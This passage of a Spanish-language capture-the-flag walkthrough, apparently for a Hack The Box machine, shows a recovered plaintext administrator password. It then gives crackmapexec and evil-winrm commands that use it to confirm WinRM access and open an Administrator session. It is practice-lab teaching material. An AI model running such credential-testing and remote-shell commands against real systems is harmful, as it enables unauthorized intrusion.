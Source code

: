    ```plaintext
   login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ
   ```

**Verificar Credenciales con `crackmapexec`**  
   Ahora, utilizamos `crackmapexec` para probar las credenciales extraídas contra el servicio WinRM:

   ```zsh
   crackmapexec winrm 10.10.10.149 -u 'Administrator' -p '4dD!5}x/re8]FBuZ'
   ```

   Si las credenciales son correctas, `crackmapexec` confirmará el acceso (¡pwn3d!).

**Acceder como Administrador**  
   Finalmente, usamos `evil-winrm` para conectarnos como `Administrator` y obtener acceso al sistema con privilegios elevados:

   ```powershell
   evil-winrm -i 10.10.10.149 -u Administrator -p '4dD!5}x/re8]FBuZ'
   ```

   Al estar en el sistema, podemos buscar y capturar archivos adicionales, como `root.txt` para finalizar la escalada de privilegios.

<div style="width:100%;height:0;padding-bottom:60%;position:relative;"><iframe src="https://giphy.com/embed/BemKqR9RDK4V2" width="100%" height="100%" style="position:absolute" frameBorder="0" class="giphy-embed" allowFullScreen></iframe></div><p><a href="https://giphy.com/gifs/japan-jet-alt-BemKqR9RDK4V2">via GIPHY</a></p>
